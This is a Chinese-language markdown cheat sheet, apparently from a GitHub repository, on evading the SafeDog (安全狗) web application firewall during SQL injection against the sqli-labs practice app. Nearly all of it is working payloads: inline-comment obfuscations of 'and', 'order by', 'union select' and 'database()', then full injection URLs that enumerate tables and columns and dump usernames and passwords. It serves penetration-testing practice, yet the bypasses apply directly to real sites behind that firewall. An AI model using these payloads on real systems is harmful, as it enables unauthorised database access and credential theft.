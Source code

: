 #  WAF

## 安全狗

### sqli-labs

#### and

and后数字1

```bash
and/**/1=1--+
```

##### 字符集

```bash
!@#-+/
```



```bash
/*!---*/
/*!-!!*/
```



```bash
/Less-1/?id=1' and/*!---*/=1--+
```



#### order by

orser空格by

```bash
order/**/by
```



```bash
/*/!+!*/
/*/@+!*/
```



```bash
/Less-1/?id=1' order/*/!+!*/by 3--+
```

#### union select

```bash
union/**/select
```



```bash
/*/-+-+*/
```



```bash
/Less-1/?id=-1' union/*/!+!*/select 1,2,3--+
```

#### database()

```bash
database(/**/)
```



```bash

```



```bash
/Less-1/?id=-1' union/*/!+!*/select 1,2,database(/*/-+-+*/)--+
```



#### select

```bash
/*!select*/
```



```bash
/*!44441select*/

/*!44442select*/
```



```bash
/Less-1/?id=-1' union/*/!+!*//*!44441select*/ 1,2,group_concat(table_name) from information_schema.tables where table_schema=database(/*/-+-+*/)--+
```



```bash
/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```



```bash
/Less-1/?id=-1' union/*/-+-+*//*!44441select*/ 1,2,group_concat(username,'^',password) from users--+
```

绕WAF没有太大的规律而言，如果非要总结规律的话就是利用`/**/`和`/*!*/`两种注释方式来绕过`and`、`order by` 、`union`等关键词，前面实战讲述的只是一种解题思路，大家可以通过google等方式自己多去探索，挖掘。

